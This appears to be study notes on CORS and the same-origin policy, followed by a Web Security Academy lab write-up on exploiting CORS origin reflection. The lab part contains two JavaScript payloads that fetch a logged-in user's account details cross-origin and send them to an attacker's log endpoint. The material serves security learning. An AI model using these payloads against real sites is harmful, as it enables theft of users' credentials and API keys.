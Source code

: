 ### What is CORS?

*Cross Origin Resource Sharing*

Is a browser mechanism that allows access to resources outside of the domain.
This does not a protection against CSRF.

It could allow for cross-domain attacks if misconfigured or implemented incorrectly.

### Same-Origin policy

Is a defensive mechanism that limits websites interaction with outside domains.
To prevent stealing data or performing malicious actions.

It generally allows requests to other domains but not to access the responses.

### Relaxation of the same-origin policy

The same-origin policy is very restrictive.
But often websites need interaction with 3-rd party sites or subdomains that require `full cross-origin access`.

Relaxation of the same-origin policy is possible using CORS.

The CORS protocol uses a `suite of HTTP headers`.
They define trusted origins and if authenticated access is permitted.

These headers are exchanged between browser and cross-origin website that it's trying to access.

### CORS misconfiguration vulnerabilities

Modern websites use CORS to allow for cross-origin interaction.
They could be misconfigured or be too lenient to ensure functionality.

**LAB** - CORS vuln with basic origin reflection
Attain admin API key buy exploiting CORS which trusts all origins, craft some JS and upload it to the exploit server.

**Solution** - The /accountDetails endpoint returns json response of account details.

Using this endpoint we see that response contains `Access-Control-Allow-Credentials: true` header.
This means we can send request with authentication.

Now to test cross-origin.
Our request to the endpoint, we add header `Origin: https://reab.com`.
In response `Access-Control-Allow-Origin: https://reab.com` the custom origin is allowed.

This confirms the CORS vulnerability, meaning we host our own malicious server with script and send the request on behalf of the authenticated user.

```javascript
// this is my script that for some reason donesn't work
<script> 

let url = "https://0adf00ff032c212780528f0200ec001e.web-security-academy.net/accountDetails";

fetch(url, { credentials : 'include', method : 'GET' })
    .then(response => response.text())
    .then(data => {
	    location = '/log?result=' + btoa(data);
    });
    
</script>
```

```javascript
// original solution
<script>

var req = new XMLHttpRequest();

req.onload = reqListener;
req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
req.withCredentials = true; req.send();

function reqListener() {
	location='/log?key='+this.responseText;
};

</script>
```
